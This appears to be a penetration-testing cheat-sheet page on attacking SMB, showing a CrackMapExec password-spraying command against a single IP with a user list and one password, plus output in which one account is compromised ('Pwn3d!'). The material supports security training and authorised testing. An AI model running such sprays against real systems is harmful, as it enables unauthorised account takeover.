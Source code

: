 # SMB

## CrackMapExec

[crackmapexec.md](../../../toolbox/tooling/post-exploitation/crackmapexec.md "mention") allows attackers to target multiple IPs, using numerous users and passwords. To perform a password spraying attack against one IP, use the option `-u` to specify a file with a user list and `-p` to provide a password.

```bash
clue@machine[~]$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\Administrator:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\jrodriguez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\admin:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\eperez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\amone:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\fsmith:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\tcrash:Company01! STATUS_LOGON_FAILURE 

<SNIP>

SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\jurena:Company01! (Pwn3d!) 
```

